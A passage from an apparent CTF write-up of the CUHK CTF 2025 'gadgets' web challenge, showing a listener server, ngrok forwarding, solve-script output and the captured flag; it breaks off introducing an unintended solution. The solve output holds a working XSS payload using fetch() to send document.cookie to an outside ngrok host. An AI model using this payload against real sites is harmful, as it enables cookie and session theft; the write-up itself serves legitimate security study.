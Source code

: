 - Start our attacker web server

```shell
┌[siunam@~/ctf/CUHK-CTF-2025/Web-Exploitation/gadgets]-[2025/10/04|19:18:35(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

- Setup port forwarding via [ngrok](https://ngrok.com/)

```shell
┌[siunam@~/ctf/CUHK-CTF-2025/Web-Exploitation/gadgets]-[2025/10/04|19:18:37(HKT)]
└> ngrok tcp 8000            
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:11851 -> localhost:8000                             
[...]
```

- Run the solve script

```shell
┌[siunam@~/ctf/CUHK-CTF-2025/Web-Exploitation/gadgets]-[2025/10/04|19:18:31(HKT)]
└> python3 solve.py
[+] Created 2 boards. Board 1 ID: 9768a1ae-3b52-4578-a703-2ee01260a1f0 | Board 2 ID: f4f52818-d924-4920-b051-96105030a491
[+] Created new gadget for board 1. Data: {'type': 'functions.sendToParent', 'executeFunction': True, 'arguments': [''], 'functionString': 'fetch(`//0.tcp.ap.ngrok.io:11851/?${document.cookie}`)'}
[+] Created new gadget for board 2. Data: {'type': 'gadget.board', 'boardId': '9768a1ae-3b52-4578-a703-2ee01260a1f0'}
[*] Reporting URL: http://chall-b.25.cuhkctf.org:25053/f4f52818-d924-4920-b051-96105030a491
[+] Reported board 2 to the bot
```

- Our attacker server log

```shell
┌[siunam@~/ctf/CUHK-CTF-2025/Web-Exploitation/gadgets]-[2025/10/04|19:34:45(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [04/Oct/2025 19:35:17] "GET /?flag=cuhk25ctf{cR3d17_t0_g00613_F0r_7hi5_iD34_7o_c0n5truc7_a_fUnCt10N} HTTP/1.1" 200 -
```

- Flag: **`cuhk25ctf{cR3d17_t0_g00613_F0r_7hi5_iD34_7o_c0n5truc7_a_fUnCt10N}`**

> Note 1: The remote instance's `FLAG_DOMAIN` environment variable's value is misconfigured to `http://chall-b.25.cuhkctf.org:25053`. Make sure your reporting domain is `http://chall-b.25.cuhkctf.org:25053`, NOT `http://gadgets-frontend:3000`.
> Note 2: For some reason, the solve script doesn't work locally but work on the remote.

## Potential Unintended Solution

Since the remote instance's `FLAG_DOMAIN` environment variable is misconfigured, it is possible to get the `flag` cookie via an unintended way:
